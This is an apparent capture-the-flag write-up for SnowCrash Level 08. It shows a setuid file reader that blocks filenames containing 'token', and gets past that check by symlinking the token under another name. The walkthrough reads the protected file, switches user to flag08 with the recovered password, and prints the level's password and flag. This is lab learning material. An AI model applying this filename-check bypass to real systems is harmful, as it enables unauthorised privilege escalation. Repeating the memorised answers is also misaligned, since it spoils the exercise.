 # Level 08

## Vulnerability
Privilege escalation - weak filename check

## Context
```
level08@SnowCrash:~$ ls -l
-rwsr-s---+ 1 flag08 level08 8617 Mar  5  2016 level08
-rw-------  1 flag08 flag08    26 Mar  5  2016 token
```

## Solution
```
level08@SnowCrash:~$ ./level08
./level08 [file to read]
```
Ok lets create a file to read.
```
level08@SnowCrash:~$ echo "oh hi" > /dev/shm/hi
level08@SnowCrash:~$ ./level08 /dev/shm/hi
oh hi
```
Looks like the binary ```level08``` prints the contents of a file given as argument. We don't have permissions to read token directly, will ```level08``` read ```token``` for us?
```
level08@SnowCrash:~$ ./level08 token
You may not access 'token'
```
Hmm, why not?
```
level08@SnowCrash:~$ ltrace ./level08 token
__libc_start_main(0x8048554, 2, 0xbffff794, 0x80486b0, 0x8048720 <unfinished ...>
strstr("token", "token")                                    = "token"
printf("You may not access '%s'\n", "token"You may not access 'token'
)                = 27
exit(1 <unfinished ...>
```
It seems like it calls strstr to see if "token" is contained in the filename, and rejects access if true. So let's create a symlink to token, named anything other than token.
```
level08@SnowCrash:~$ ln -s ~/token /tmp/password
level08@SnowCrash:~$ ./level08 /tmp/password
quif5eloekouj29ke0vouxean
```
Great! Lets log in to flag08 and launch getflag.
```
level08@SnowCrash:~$ su flag08
Password: quif5eloekouj29ke0vouxean
Don't forget to launch getflag !
flag08@SnowCrash:~$ getflag
Check flag.Here is your token : 25749xKZ8L7DkSCwJkT9dyv6f
```
